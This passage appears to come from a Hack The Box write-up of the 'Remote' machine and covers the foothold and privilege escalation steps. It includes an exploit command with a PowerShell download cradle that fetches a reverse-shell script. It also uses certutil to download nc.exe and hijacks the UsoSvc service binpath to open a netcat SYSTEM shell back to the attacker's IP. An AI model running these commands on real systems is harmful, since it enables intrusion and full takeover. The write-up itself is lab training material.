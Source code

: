 Its time to run the exploit:

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6:8000/Invoke-PowerShellTcp.ps1')"
```

![Untitled](/img/htb-remote/Screenshot_2020-04-24_11-34-27.png)

We got the shell. And user flag is in `C:\Users\Public`

## Privilege Escalation

Uploaded [Powerup](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) to the machine. Found something Interesting.

![Untitled](/img/htb-remote/Untitled%205.png)

There is a CVE available for this service, you can refer [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc) or you can also the PowerUP AbuseFunction command to abuse it.

By Following it, Uploaded `nc.exe` to the box.

```bash
certutil -urlcache -split -f http://10.10.14.6:8000/nc.exe
```

```bash
PS C:\Users\Public\Downloads> sc.exe stop UsoSvc
PS C:\Users\Public\Downloads> sc.exe config UsoSvc binpath= "C:\Users\Public\Downloads\nc.exe 10.10.14.6 5555 -e cmd.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\Users\Public\Downloads> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\Public\Downloads\nc.exe 10.10.14.6 5555 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
PS C:\Users\Public\Downloads> sc.exe start UsoSvc
```

We changed the Binary Path and If we restart the service. It will run my nc command.

And I got the shell

![Untitled](/img/htb-remote/Untitled%206.png)

We Own the Root!